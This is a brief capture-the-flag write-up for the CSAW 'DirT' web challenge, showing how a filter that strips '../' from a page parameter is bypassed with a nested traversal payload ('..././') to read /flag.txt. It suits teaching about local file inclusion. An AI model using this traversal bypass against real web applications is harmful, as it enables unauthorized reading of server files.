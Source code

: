 # DirT
The web can be a DirTy place. I've done a truly mean thing. I filter out ../ from the page path. flag is at /flag.txt

http://web.chal.csaw.io:1001

---

When we first load the page, we are greeted with two links that lead to [http://web.chal.csaw.io:1001/?page=index.html](http://web.chal.csaw.io:1001/?page=index.html) and [http://web.chal.csaw.io:1001/?page=flex.html](http://web.chal.csaw.io:1001/?page=flex.html)

It seems like a typical LFI challenge, but with `../` filtered.
However, it is trival to bypass the filtering.

`http://web.chal.csaw.io:1001/?page=..././..././..././flag.txt`
